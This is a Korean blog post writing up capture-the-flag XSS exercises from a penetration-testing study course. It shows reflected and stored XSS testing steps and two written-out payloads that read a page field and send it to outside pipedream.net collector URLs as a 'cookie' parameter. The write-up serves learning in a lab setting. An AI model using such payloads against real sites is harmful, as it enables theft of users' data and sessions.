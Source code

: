 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[CTF] CTF 문제 풀이: XSS - iframe tag 이용 다른 페이지 data 탈취하기"
excerpt: "모의해킹 취업반 스터디 7기 11주차"

date: 2024-12-30
last_modified_at: 

tags: [TIL, WEB]
---
```


# CTF - Basic Script Prac
## mypage.php
1. 저장되고 출력되는 위치 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-11.png?raw=true">

1. 특수문자 <'"> 사용 가능한 지 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-12.png?raw=true">

1. `<script>alert(1)</script>`로 Reflected XSS 공격이 가능한 지 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-13.gif?raw=true">

1. data 탈취  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-14.gif?raw=true">

* 공격 코드 1  
```html
">
<script>
window.addEventListener('DOMContentLoaded',
    function() {
        let e = document.querySelectorAll('input')[1].placeholder;
        let i = new Image();
        i.src = 'https://eoxee0fw4m1u2sw.m.pipedream.net/?cookie=' + e;
    });
</script>
```

* 공격 코드 2  
```html
">
<img src=. onerror="
let e = document.querySelectorAll('input')[1].placeholder;
let i = new Image();
i.src = 'https://eot2jevtyijbm2l.m.pipedream.net/?cookie=' + e;
">
```

# CTF - Steal Info
## notice_list.php
1. 저장되고 출력되는 위치 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-1.gif?raw=true">

1. 특수문자 <'"> 사용 가능한 지 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-2.gif?raw=true">

1. `<script>alert(1)</script>`로 XSS 공격이 가능한 지 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-3.gif?raw=true">

1. data 탈취  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-4.gif?raw=true">

* 공격 코드  
![pre tag가 일을 안 해요](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-9.png?raw=true)

# CTF - Steal Info 2
## notice_list.php
1. 저장되고 출력되는 위치 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-5.gif?raw=true">

1. 특수문자 <'"> 사용 가능한 지 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-6.gif?raw=true">

1. `<script>alert(1)</script>`로 Stored XSS 공격이 가능한 지 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-7.gif?raw=true">

1. data 탈취  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-8.gif?raw=true">

* 공격 코드  
![pre tag가 일을 안 해요 2](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-10.png?raw=true)